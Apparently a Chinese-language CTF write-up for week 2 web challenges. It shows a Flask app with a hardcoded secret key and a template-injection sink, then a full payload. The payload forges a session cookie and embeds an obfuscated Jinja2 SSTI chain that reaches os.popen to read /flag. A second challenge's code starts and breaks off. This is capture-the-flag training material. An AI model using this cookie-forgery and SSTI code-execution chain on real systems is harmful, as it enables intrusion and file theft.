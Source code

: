 ## Week2——Web
### 入侵者禁入
```python
from flask import Flask, session, request, render_template_string
app = Flask(__name__) 
app.secret_key = '0day_joker' 

@app.route('/') 
def index(): 
	session['role'] = { 
		'is_admin': 0, 
		'flag': 'your_flag_here'
	} 
	with open(__file__, 'r') as file: 
		code = file.read() 
	return code

@app.route('/admin') 
def admin_handler(): 
	try: 
		role = session.get('role') 
		if not isinstance(role, dict): 
			raise Exception 
	except Exception: 
		return 'Without you, you are an intruder!' 
		
		if role.get('is_admin') == 1: 
			flag = role.get('flag', 'admin') 
			message = "Oh, I believe in you! The flag is: %s" % flag 
			return render_template_string(message) 
		else: 
			return "Error: You don't have the power!" 
			
if __name__ == '__main__': 
	app.run('0.0.0.0', port=80)
```
Payload：
```TEXT
# 先改session，再模板注入
python3 flask_session_cookie_manager3.py encode -s "0day_joker" -t "{'role': {'flag': '{{[].__class__.__base__.__subclasses__()[189].__init__.__globals__[\'__builtins__\'][\'__imp\'+\'ort__\'](\'os\').__dict__[\'pop\'+\'en\'](\'cd ..;cat /flag\').read()}}', 'is_admin': 1}}"

# 编码后 .eJwdjsEKgzAQRH9F9hKlJcVbaz9FJKxJKgsxERNPIf_eXW8z82ZgKpwpeJgq_AJuMEGt86KNsQFzNobVitnfIl_rnXrO-2Ee3x8pUqRy4y2kFQOzWfHoolAoslOLeNoP9VDpLBL0KmU18MSRLdI_klAfBVnXaf21WLqXPOLe6dH1Q2vwBMoG3U4RprG1P8iCPw0.ZwaelA.hyQR-UFsBnG0cWJml_e_bhZd7qQ
```

### guess_the_number
```python
import flask
import random
from flask import Flask, request, render_template, send_file

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html', first_num = first_num)  

@app.route('/s0urce')
def get_source():
```